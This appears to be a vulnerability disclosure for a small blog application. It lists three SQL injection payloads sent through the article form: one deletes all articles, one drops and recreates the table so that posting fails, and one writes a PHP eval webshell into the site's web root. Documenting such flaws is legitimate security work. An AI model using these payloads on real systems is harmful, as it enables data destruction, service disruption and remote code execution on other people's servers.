



1. Malicious Deletion of Database
Constructing a POST request:

```
title=rrr',"ggg",''); DELETE FROM articles; --&content=rrr&save=Save
```



All articles have been deleted


2. Denial of Service

After deleting the "articles" table, recreating it with mismatched fields:
```

title=rrr',"ggg",''); DROP TABLE articles; CREATE TABLE IF NOT EXISTS articles (fake_title TEXT) --&content=rrr&save=Save
```



After this, no matter how you try to click "add new," it is impossible to create an article.

3. inject weshell

webshell can be injected when the security of the platform on which the service is installed is insufficient

```
title=2622',"333",'');ATTACH DATABASE '/opt/1panel/apps/openresty/openresty/www/sites/sblog/index/shell.php' AS shell;create TABLE shell.exp (webshell text);insert INTO shell.exp (webshell) VALUES ('\r\n\r\n<?php eval($_POST[whoami]);?>\r\n\r\n');
  --&content=7677&save=Save
```